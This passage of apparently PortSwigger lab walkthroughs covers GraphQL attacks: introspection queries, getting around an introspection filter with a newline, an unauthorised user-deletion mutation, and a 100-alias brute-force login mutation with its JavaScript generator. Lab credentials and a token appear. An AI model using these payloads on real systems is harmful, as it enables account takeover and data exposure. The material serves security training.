{"query":"\n    query getBlogPost($id: Int!) {\n        getBlogPost(id: $id) {\n            image\n            title\n            author\n            date\n            paragraphs\n     postPassword\n   }\n    }","operationName":"getBlogPost","variables":{"id":3

}}
```

<img width="1544" height="651" alt="image" src="https://github.com/user-attachments/assets/e689a70d-8315-4412-9c87-b8d5aa85efd6" />


found the password

```

```

  
</details>









<details>
  <summary>Lab: Accidental exposure of private GraphQL fields</summary>


### > The user management functions for this lab are powered by a GraphQL endpoint. The lab contains an access control vulnerability whereby you can induce the API to reveal user credential fields.

> To solve the lab, sign in as the administrator and delete the username ``carlos``. 

---

find this request 

<img width="1211" height="602" alt="image" src="https://github.com/user-attachments/assets/ce5ced22-73f4-416f-835a-effedd00e716" />

``Introspection Query``

```json
{

  "query": " query IntrospectionQuery { __schema { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"

}
```

``Introspection Result``

<img width="1540" height="640" alt="image" src="https://github.com/user-attachments/assets/07d67e10-15c5-4b3a-95a9-5a60b4b257f7" />

<img width="843" height="720" alt="image" src="https://github.com/user-attachments/assets/acca9c26-a639-4f12-8c97-1b4b5edcd8de" />

now try to use ``getUser(id:Int!): User`` to find **``administrator``** user


```graphql
{
  getUser(id: 1) {
    id
    username
    password
  }
}

```

<img width="1316" height="367" alt="image" src="https://github.com/user-attachments/assets/e932fd39-cead-4b3d-9c44-3ae3474b1329" />


```
administrator : lnqajgkwlru628r4sgjc
```

<img width="1330" height="486" alt="image" src="https://github.com/user-attachments/assets/4ed941d2-305e-4e47-8b02-58d16d623fb2" />

<img width="1290" height="268" alt="image" src="https://github.com/user-attachments/assets/89d700e2-75c7-4ab1-8c53-441c2c82b3fe" />


  
</details>





<details>
  <summary>Lab: Finding a hidden GraphQL endpoint</summary>


###>  The user management functions for this lab are powered by a hidden GraphQL endpoint. You won't be able to find this endpoint by simply clicking pages in the site. The endpoint also has some defenses against introspection.

> To solve the lab, find the hidden endpoint and delete ``carlos``. 

----


first test common ``graphql`` endpoints

<img width="557" height="460" alt="image" src="https://github.com/user-attachments/assets/3172e313-20bc-4226-9b04-920f1893b50a" />

all responses ``404`` except one ``405`` but say ``method not allowed``

<img width="954" height="241" alt="image" src="https://github.com/user-attachments/assets/3faecc2c-88fb-4074-926b-c76228eed772" />

it seem that it allow **``GET``** method

<img width="919" height="572" alt="image" src="https://github.com/user-attachments/assets/8a3a78bc-2a86-437e-a9c5-af9d7c275a0f" />

now **``qurey not present``**

<img width="1534" height="447" alt="image" src="https://github.com/user-attachments/assets/d77a13d6-bb67-4ee9-8539-4d1d96de0408" />

first put this header in request 

```http
Content-Type: application/json;
```

and try to add simple qurey to see what will be the result

```json
{
  "query": "query{__typename}"
}
```

and booom 

<img width="1534" height="441" alt="image" src="https://github.com/user-attachments/assets/ee8a6f2c-bc06-4909-99aa-cf48313978ef" />

now try to write introspction simple query :

```json
{
  "query": "{__schema{queryType{name}}}"
}
```

response say ``introspection not allowed`` it seems there is filteration on it 

<img width="1542" height="449" alt="image" src="https://github.com/user-attachments/assets/9c22e8d9-09b0-4ac3-9ce2-6471385de770" />

try to pypass it by using **``\n``**:

```json
{
  "query": "{__schema\n{queryType{name}}}"
}

                      |
```
and it work 🔥

<img width="1317" height="438" alt="image" src="https://github.com/user-attachments/assets/1dfa68f6-e45c-4d8e-8671-8b69a4dee4e9" />


now use full ``introspection`` qurey 

```json
{
  "query": " query IntrospectionQuery { __schema\n { queryType { name } mutationType { name } subscriptionType { name } types { ...FullType } directives { name description args { ...InputValue } } } } fragment FullType on __Type { kind name description fields(includeDeprecated: true) { name description args { ...InputValue } type { ...TypeRef } isDeprecated deprecationReason } inputFields { ...InputValue } interfaces { ...TypeRef } enumValues(includeDeprecated: true) { name description isDeprecated deprecationReason } possibleTypes { ...TypeRef } } fragment InputValue on __InputValue { name description type { ...TypeRef } defaultValue } fragment TypeRef on __Type { kind name ofType { kind name ofType { kind name ofType { kind name } } } }"
}

```

<img width="1549" height="705" alt="image" src="https://github.com/user-attachments/assets/e453946c-1581-408f-9545-f8e30d78be1e" />

 ### > use [Introspection Visualization](http://nathanrandal.com/graphql-visualizer/)

<img width="1874" height="580" alt="image" src="https://github.com/user-attachments/assets/02b0bd11-6c73-450d-8307-f4c6419c645c" />

now get users

```json
{
  "query": "{ getUser(id: 1) { id username }}"
}
```

<img width="1402" height="472" alt="image" src="https://github.com/user-attachments/assets/eb842d5b-c4fe-41d7-bd12-fbb7a525e6ea" />

```
id   user
1     adminstrator
2     wiener
3     carlos
```

in ``schema`` foud this ``DeleteOrganizationUserInput``

<img width="771" height="603" alt="image" src="https://github.com/user-attachments/assets/ce921faf-ca9f-48b8-9711-e13caa58d0a1" />

download **`inql`** extension to burp and take the json respose of **``introspection``** to it to see the ``mutaion`` 

<img width="1264" height="447" alt="image" src="https://github.com/user-attachments/assets/74c533cd-2e73-462b-8834-cad3cba39347" />

or use this simple query :

```json
{
  "query": "{ __schema\n { mutationType { name fields { name args { name type { name kind } } } } }}"
}
```

<img width="1441" height="467" alt="image" src="https://github.com/user-attachments/assets/d1eee12e-d58d-4b96-b6a9-3458cabccbbd" />


good now we know that there is **``mutaion``** call **``DeleteOrganizationUserInput``** 

### > Discover the fields inside ``DeleteOrganizationUserInput``

```json
{
  "query": "{ __type(name: \"DeleteOrganizationUserInput\")\n { name kind inputFields { name type { name kind ofType { name kind } } } }}"
}
```

``output``

<img width="1532" height="519" alt="image" src="https://github.com/user-attachments/assets/049c1775-e902-48d6-9e24-17d9dd7c968a" />


so it require the **``id``**

```json
{
  "query": "mutation { deleteOrganizationUser(input: { id: 3 }) { __typename }}"
}
```

<img width="1226" height="399" alt="image" src="https://github.com/user-attachments/assets/555e0324-a75a-4979-a877-078504f1bfa8" />




  
</details>





<details>
  <summary>Lab: Bypassing GraphQL brute force protections</summary>


- <details>
     <summary>Tip</summary>
  
  <img width="1086" height="471" alt="image" src="https://github.com/user-attachments/assets/9aaf76d7-99e0-47c5-995f-90ddd91d2908" />
  
  ```javascript
  
  copy(`123456,password,12345678,qwerty,123456789,12345,1234,111111,1234567,dragon,123123,baseball,abc123,football,monkey,letmein,shadow,master,666666,qwertyuiop,123321,mustang,1234567890,michael,654321,superman,1qaz2wsx,7777777,121212,000000,qazwsx,123qwe,killer,trustno1,jordan,jennifer,zxcvbnm,asdfgh,hunter,buster,soccer,harley,batman,andrew,tigger,sunshine,iloveyou,2000,charlie,robert,thomas,hockey,ranger,daniel,starwars,klaster,112233,george,computer,michelle,jessica,pepper,1111,zxcvbn,555555,11111111,131313,freedom,777777,pass,maggie,159753,aaaaaa,ginger,princess,joshua,cheese,amanda,summer,love,ashley,nicole,chelsea,biteme,matthew,access,yankees,987654321,dallas,austin,thunder,taylor,matrix,mobilemail,mom,monitor,monitoring,montana,moon,moscow`.split(',').map((element,index)=>`
  bruteforce$index:login(input:{password: "$password", username: "carlos"}) {
          token
          success
      }
  `.replaceAll('$index',index).replaceAll('$password',element)).join('\n'));console.log("The query has been copied to your clipboard.");
  ```
  
  <img width="1314" height="725" alt="image" src="https://github.com/user-attachments/assets/fa809ec6-fc31-4f69-ab17-59c287b0afbd" />
  

-----

### change it form this :

<img width="1439" height="783" alt="image" src="https://github.com/user-attachments/assets/5299c3b2-8225-4368-9faa-e31770bd3fdb" />

```graphql
mutation login($input: LoginInput!) {
        login(input: $input) {
            token
            success
        }
    }
```

### to this



```graphql
mutation  {
        
    }
```

### and inside it put the output of the js script


```json

bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }



```


### result 


```
mutation login{

bruteforce64:login(input:{password: "555555", username: "carlos"}) {
        token
        success
    }


bruteforce65:login(input:{password: "11111111", username: "carlos"}) {
        token
        success
    }


bruteforce66:login(input:{password: "131313", username: "carlos"}) {
        token
        success
    }



}
```




  </details>


```json

{
    "query": "mutation bruteForce {\n    try1: login(input: {username: \"carlos\", password: \"123456\"}) { token success }\n    try2: login(input: {username: \"carlos\", password: \"password\"}) { token success }\n    try3: login(input: {username: \"carlos\", password: \"12345678\"}) { token success }\n    try4: login(input: {username: \"carlos\", password: \"qwerty\"}) { token success }\n    try5: login(input: {username: \"carlos\", password: \"123456789\"}) { token success }\n    try6: login(input: {username: \"carlos\", password: \"12345\"}) { token success }\n    try7: login(input: {username: \"carlos\", password: \"1234\"}) { token success }\n    try8: login(input: {username: \"carlos\", password: \"111111\"}) { token success }\n    try9: login(input: {username: \"carlos\", password: \"1234567\"}) { token success }\n    try10: login(input: {username: \"carlos\", password: \"dragon\"}) { token success }\n    try11: login(input: {username: \"carlos\", password: \"123123\"}) { token success }\n    try12: login(input: {username: \"carlos\", password: \"baseball\"}) { token success }\n    try13: login(input: {username: \"carlos\", password: \"abc123\"}) { token success }\n    try14: login(input: {username: \"carlos\", password: \"football\"}) { token success }\n    try15: login(input: {username: \"carlos\", password: \"monkey\"}) { token success }\n    try16: login(input: {username: \"carlos\", password: \"letmein\"}) { token success }\n    try17: login(input: {username: \"carlos\", password: \"shadow\"}) { token success }\n    try18: login(input: {username: \"carlos\", password: \"master\"}) { token success }\n    try19: login(input: {username: \"carlos\", password: \"666666\"}) { token success }\n    try20: login(input: {username: \"carlos\", password: \"qwertyuiop\"}) { token success }\n    try21: login(input: {username: \"carlos\", password: \"123321\"}) { token success }\n    try22: login(input: {username: \"carlos\", password: \"mustang\"}) { token success }\n    try23: login(input: {username: \"carlos\", password: \"1234567890\"}) { token success }\n    try24: login(input: {username: \"carlos\", password: \"michael\"}) { token success }\n    try25: login(input: {username: \"carlos\", password: \"654321\"}) { token success }\n    try26: login(input: {username: \"carlos\", password: \"superman\"}) { token success }\n    try27: login(input: {username: \"carlos\", password: \"1qaz2wsx\"}) { token success }\n    try28: login(input: {username: \"carlos\", password: \"7777777\"}) { token success }\n    try29: login(input: {username: \"carlos\", password: \"121212\"}) { token success }\n    try30: login(input: {username: \"carlos\", password: \"000000\"}) { token success }\n    try31: login(input: {username: \"carlos\", password: \"qazwsx\"}) { token success }\n    try32: login(input: {username: \"carlos\", password: \"123qwe\"}) { token success }\n    try33: login(input: {username: \"carlos\", password: \"killer\"}) { token success }\n    try34: login(input: {username: \"carlos\", password: \"trustno1\"}) { token success }\n    try35: login(input: {username: \"carlos\", password: \"jordan\"}) { token success }\n    try36: login(input: {username: \"carlos\", password: \"jennifer\"}) { token success }\n    try37: login(input: {username: \"carlos\", password: \"zxcvbnm\"}) { token success }\n    try38: login(input: {username: \"carlos\", password: \"asdfgh\"}) { token success }\n    try39: login(input: {username: \"carlos\", password: \"hunter\"}) { token success }\n    try40: login(input: {username: \"carlos\", password: \"buster\"}) { token success }\n    try41: login(input: {username: \"carlos\", password: \"soccer\"}) { token success }\n    try42: login(input: {username: \"carlos\", password: \"harley\"}) { token success }\n    try43: login(input: {username: \"carlos\", password: \"batman\"}) { token success }\n    try44: login(input: {username: \"carlos\", password: \"andrew\"}) { token success }\n    try45: login(input: {username: \"carlos\", password: \"tigger\"}) { token success }\n    try46: login(input: {username: \"carlos\", password: \"sunshine\"}) { token success }\n    try47: login(input: {username: \"carlos\", password: \"iloveyou\"}) { token success }\n    try48: login(input: {username: \"carlos\", password: \"2000\"}) { token success }\n    try49: login(input: {username: \"carlos\", password: \"charlie\"}) { token success }\n    try50: login(input: {username: \"carlos\", password: \"robert\"}) { token success }\n    try51: login(input: {username: \"carlos\", password: \"thomas\"}) { token success }\n    try52: login(input: {username: \"carlos\", password: \"hockey\"}) { token success }\n    try53: login(input: {username: \"carlos\", password: \"ranger\"}) { token success }\n    try54: login(input: {username: \"carlos\", password: \"daniel\"}) { token success }\n    try55: login(input: {username: \"carlos\", password: \"starwars\"}) { token success }\n    try56: login(input: {username: \"carlos\", password: \"klaster\"}) { token success }\n    try57: login(input: {username: \"carlos\", password: \"112233\"}) { token success }\n    try58: login(input: {username: \"carlos\", password: \"george\"}) { token success }\n    try59: login(input: {username: \"carlos\", password: \"computer\"}) { token success }\n    try60: login(input: {username: \"carlos\", password: \"michelle\"}) { token success }\n    try61: login(input: {username: \"carlos\", password: \"jessica\"}) { token success }\n    try62: login(input: {username: \"carlos\", password: \"pepper\"}) { token success }\n    try63: login(input: {username: \"carlos\", password: \"1111\"}) { token success }\n    try64: login(input: {username: \"carlos\", password: \"zxcvbn\"}) { token success }\n    try65: login(input: {username: \"carlos\", password: \"555555\"}) { token success }\n    try66: login(input: {username: \"carlos\", password: \"11111111\"}) { token success }\n    try67: login(input: {username: \"carlos\", password: \"131313\"}) { token success }\n    try68: login(input: {username: \"carlos\", password: \"freedom\"}) { token success }\n    try69: login(input: {username: \"carlos\", password: \"777777\"}) { token success }\n    try70: login(input: {username: \"carlos\", password: \"pass\"}) { token success }\n    try71: login(input: {username: \"carlos\", password: \"maggie\"}) { token success }\n    try72: login(input: {username: \"carlos\", password: \"159753\"}) { token success }\n    try73: login(input: {username: \"carlos\", password: \"aaaaaa\"}) { token success }\n    try74: login(input: {username: \"carlos\", password: \"ginger\"}) { token success }\n    try75: login(input: {username: \"carlos\", password: \"princess\"}) { token success }\n    try76: login(input: {username: \"carlos\", password: \"joshua\"}) { token success }\n    try77: login(input: {username: \"carlos\", password: \"cheese\"}) { token success }\n    try78: login(input: {username: \"carlos\", password: \"amanda\"}) { token success }\n    try79: login(input: {username: \"carlos\", password: \"summer\"}) { token success }\n    try80: login(input: {username: \"carlos\", password: \"love\"}) { token success }\n    try81: login(input: {username: \"carlos\", password: \"ashley\"}) { token success }\n    try82: login(input: {username: \"carlos\", password: \"nicole\"}) { token success }\n    try83: login(input: {username: \"carlos\", password: \"chelsea\"}) { token success }\n    try84: login(input: {username: \"carlos\", password: \"biteme\"}) { token success }\n    try85: login(input: {username: \"carlos\", password: \"matthew\"}) { token success }\n    try86: login(input: {username: \"carlos\", password: \"access\"}) { token success }\n    try87: login(input: {username: \"carlos\", password: \"yankees\"}) { token success }\n    try88: login(input: {username: \"carlos\", password: \"987654321\"}) { token success }\n    try89: login(input: {username: \"carlos\", password: \"dallas\"}) { token success }\n    try90: login(input: {username: \"carlos\", password: \"austin\"}) { token success }\n    try91: login(input: {username: \"carlos\", password: \"thunder\"}) { token success }\n    try92: login(input: {username: \"carlos\", password: \"taylor\"}) { token success }\n    try93: login(input: {username: \"carlos\", password: \"matrix\"}) { token success }\n    try94: login(input: {username: \"carlos\", password: \"mobilemail\"}) { token success }\n    try95: login(input: {username: \"carlos\", password: \"mom\"}) { token success }\n    try96: login(input: {username: \"carlos\", password: \"monitor\"}) { token success }\n    try97: login(input: {username: \"carlos\", password: \"monitoring\"}) { token success }\n    try98: login(input: {username: \"carlos\", password: \"montana\"}) { token success }\n    try99: login(input: {username: \"carlos\", password: \"moon\"}) { token success }\n    try100: login(input: {username: \"carlos\", password: \"moscow\"}) { token success }\n}",
    "operationName": "bruteForce",
    "variables": {}
}

```


<img width="1436" height="738" alt="image" src="https://github.com/user-attachments/assets/d63785c5-a954-4634-8abc-acce52530286" />

password 

```
123123
```

Token

```
Vuw96J2kIh6BrKRrjlwhb8tQ96AViUTI
```

  
</details>




























